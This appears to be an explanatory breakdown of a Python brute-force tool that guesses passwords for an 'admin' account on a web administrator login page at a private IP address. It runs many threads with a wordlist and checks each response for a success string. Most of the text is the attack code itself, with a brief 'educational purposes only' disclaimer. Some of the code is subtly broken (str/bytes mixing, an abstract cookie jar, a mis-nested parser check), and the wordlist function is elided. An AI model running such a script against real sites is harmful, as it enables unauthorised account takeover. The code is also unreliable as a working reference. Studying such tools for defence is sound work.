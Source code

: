 This Python script is an example of a simple web brute-force attack tool designed to test the authentication system of a web application. The script uses multiple threads to perform a brute-force attack by trying different passwords for a specified username.

Here's a breakdown of the code:

1. **Import Statements:**
   ```python
   import http.cookiejar
   import queue
   import threading
   import urllib.error
   import urllib.parse
   import urllib.request
   from abc import ABC
   from html.parser import HTMLParser
   ```

   - Importing necessary modules for handling HTTP requests, cookies, threading, and HTML parsing.

2. **General Settings:**
   ```python
   user_thread = 10
   username = "admin"
   wordlist_file = "cain.txt"
   resume = None
   ```

   - Configuration settings including the number of threads, the target username, the wordlist file, and an optional resume point.

3. **Target Specific Settings:**
   ```python
   target_url = "http://192.168.112.131/administrator/index.php"
   target_post = "http://192.168.112.131/administrator/index.php"

   username_field = "username"
   password_field = "passwd"

   success_check = "Administration - Control Panel"
   ```

   - Specific settings for the target web application, including URLs, form fields, and a string indicating successful login.

4. **HTML Parser Class (`BruteParser`):**
   ```python
   class BruteParser(HTMLParser, ABC):
       def __init__(self):
           HTMLParser.__init__(self)
           self.tag_results = {}

       def handle_starttag(self, tag, attrs):
           if tag == "input":
               tag_name = None
               for name, value in attrs:
                   if name == "name":
                       tag_name = value
                   if tag_name:
                       self.tag_results[tag_name] = value
   ```

   - A custom HTML parser class that inherits from `HTMLParser`. It extracts input field names and values from HTML.

5. **Bruter Class:**
   ```python
   class Bruter(object):
       def __init__(self, user, words_q):
           self.username = user
           self.password_q = words_q
           self.found = False
           print("Finished setting up for: %s" % user)

       def run_bruteforce(self):
           for i in range(user_thread):
               t = threading.Thread(target=self.web_bruter)
               t.start()

       def web_bruter(self):
           while not self.password_q.empty() and not self.found:
               brute = self.password_q.get().rstrip()
               jar = http.cookiejar.FileCookieJar("cookies")
               opener = urllib.request.build_opener(
                   urllib.request.HTTPCookieProcessor(jar))

               response = opener.open(target_url)
               page = response.read()

               print("Trying: %s : %s (%d left)" % (
                   self.username, brute, self.password_q.qsize()))

               parser = BruteParser()
               parser.feed(page)
               post_tags = parser.tag_results

               post_tags[username_field] = self.username
               post_tags[password_field] = brute

               login_data = urllib.parse.urlencode(post_tags)
               login_response = opener.open(target_post, login_data)
               login_result = login_response.read()

               if success_check in login_result:
                   self.found = True
                   print("[*] Bruteforce successful.")
                   print("[*] Username: %s" % username)
                   print("[*] Password: %s" % brute)
                   print("[*] Waiting for other threads to exit...")
   ```

   - The `Bruter` class encapsulates the brute-force logic. It initializes with a target username, a queue of passwords, and a flag indicating if the correct password is found.
   - The `run_bruteforce` method starts multiple threads to execute the `web_bruter` method concurrently.
   - The `web_bruter` method performs the actual brute-force attack by sending HTTP requests with different passwords, parsing HTML to extract form fields, and checking for successful login.

6. **Wordlist Building Function (`build_wordlist`):**
   ```python
   def build_wordlist(wordlst_file):
       # read in the word list
       ...
   ```

   - A function that reads passwords from a wordlist file and creates a queue of passwords. It supports resuming from a specified point.

7. **Wordlist Creation and Brute-Force Initialization:**
   ```python
   words = build_wordlist(wordlist_file)
   bruter_obj = Bruter(username, words)
   bruter_obj.run_bruteforce()
   ```

   - The script initializes the wordlist queue, creates a `Bruter` object, and starts the brute-force attack.

This script is an example and is meant for educational purposes only. Unauthorized use of such scripts is illegal and unethical. Always ensure you have explicit authorization before testing or assessing the security of any system.

